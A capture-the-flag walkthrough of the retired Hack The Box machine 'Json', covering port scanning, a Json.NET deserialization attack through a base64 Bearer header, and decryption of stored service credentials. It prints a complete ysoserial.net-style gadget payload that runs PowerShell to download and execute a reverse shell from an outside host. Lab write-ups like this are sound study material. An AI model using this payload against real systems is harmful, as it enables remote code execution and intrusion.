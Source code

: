 ```yaml
---
layout: post
title: "Json: Hack The Box Walkthrough"
date: 2020-02-16 04:00:00 +0000
last_modified_at: 2020-02-16 04:00:00 +0000
category: Walkthrough
tags: ["Hack The Box", Json, retired]
comments: true
image:
  feature: json-htb-walkthrough.jpg
  credit: xresch / Pixabay
  creditlink: https://pixabay.com/illustrations/analytics-information-innovation-3088958/
---
```


This post documents the complete walkthrough of Json, a retired vulnerable [VM][1] created by [Cyb3rb0b][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Json is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.158 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-09-29 06:29:49 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49153/tcp on 10.10.10.158                                 
Discovered open port 49152/tcp on 10.10.10.158                                 
Discovered open port 49156/tcp on 10.10.10.158                                 
Discovered open port 445/tcp on 10.10.10.158                                   
Discovered open port 49155/tcp on 10.10.10.158                                 
Discovered open port 5985/tcp on 10.10.10.158                                  
Discovered open port 47001/tcp on 10.10.10.158                                 
Discovered open port 21/tcp on 10.10.10.158                                    
Discovered open port 139/tcp on 10.10.10.158                                   
Discovered open port 49157/tcp on 10.10.10.158                                 
Discovered open port 80/tcp on 10.10.10.158                                    
Discovered open port 49158/tcp on 10.10.10.158                                 
Discovered open port 49154/tcp on 10.10.10.158                                 
Discovered open port 137/udp on 10.10.10.158                                   
Discovered open port 3389/tcp on 10.10.10.158                                  
Discovered open port 135/tcp on 10.10.10.158
```

Whoa. Many interesting open ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p21,80,135,139,445,3389,5985 -A --reason -oN nmap.txt 10.10.10.158
...
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
|_ssl-date: 2019-09-29T10:37:06+00:00; +4h00m01s from scanner time.
5985/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
Host script results:
|_clock-skew: mean: 4h00m00s, deviation: 0s, median: 4h00m00s
| nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:f6:65 (VMware)
| Names:
|   JSON<00>             Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  JSON<20>             Flags: <unique><active>
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-29T10:36:58
|_  start_date: 2019-09-29T03:54:04
```

Interesting list of services. I think the creator is telling us look at the `http` service first. Here's how it looks like.


{% include image.html image_alt="87f2df7e.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/87f2df7e.png" %}


### JSON Deserialization Attack

During my capture of the HTTP traffic with Burp, I was pleasantly surprised to find out I could log in with the credential (`admin:admin`). It was here that I noticed two XHRs to `/api/token` and `/api/Account`.


{% include image.html image_alt="1f7a5477.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/1f7a5477.png" %}


The XHR to `/api/Account` had something funky going on. Send the request to Repeater. You'll notice that there's a **Bearer** header accompanying the XHR. The value is `base64`-encoded. What if we empty the value?


{% include image.html image_alt="0dd191c7.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/0dd191c7.png" %}


That's interesting. Now, what if we put in some strange `base64`-encoded string?


{% include image.html image_alt="b75dc5f3.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/b75dc5f3.png" %}


```
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
```

Gotcha! I think I know what's going on here. There's a Json.Net deserializer that converts the **Bearer** `base64`-encoded value to a .NET object at the backend. Armed with this insight, let's see if we can send in a [ysoserial.net](https://github.com/pwntester/ysoserial.net) payload.

According to the GitHub repository of ysoserial.net, this gadget (`ObjectDataProvider`) specifically targets Json.NET. Let's see if we can use PowerShell to execute a [reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) back to us.

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':["cmd", "/c powershell /c iex (new-object net.webclient).downloadstring('http://10.10.12.99/rev.ps1')"]
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Of course, we need to `base64`-encode the above and shuttle it into the **Bearer** header.


{% include image.html image_alt="179717f8.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/179717f8.png" %}


And voila!


{% include image.html image_alt="0cafbc53.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/0cafbc53.png" %}


The file `user.txt` is at `c:\users\userpool\desktop`.


{% include image.html image_alt="7b7a4cb7.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/7b7a4cb7.png" %}


## Privilege Escalation

During enumeration of `userpool`'s account, I notice a suspicious-looking service FilesToSync at Program Files, along with a pair of encrypted credentials.


{% include image.html image_alt="b39c4b08.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/b39c4b08.png" %}


The service appears to synchronize files between two locations through FTP. Suffice to say, I grabbed a copy of `SyncLocation.exe` to my machine for further analysis.

### Decompilation of `SyncLocation.exe`

It turns out that `SyncLocation.exe` is a .Net assembly executable, which can be easily decompiled to its source code using [dnSpy](https://github.com/0xd4d/dnSpy). I'm looking for the method to decrypt those credentials.


{% include image.html image_alt="d47d2741.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/d47d2741.png" %}


Using [.NET Fiddle](https://dotnetfiddle.net/), I was able to decrypt the credentials.


{% include image.html image_alt="02610a99.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/02610a99.png" %}


The credential is (`superadmin:funnyhtb`). Armed with these, I was able to retrieve `root.txt`.


{% include image.html image_alt="ee93a86c.png" image_src="/f1e9916f-7585-483f-93d1-ced83d574809/ee93a86c.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/210
[2]: https://www.hackthebox.eu/home/users/profile/61047
[3]: https://www.hackthebox.eu/
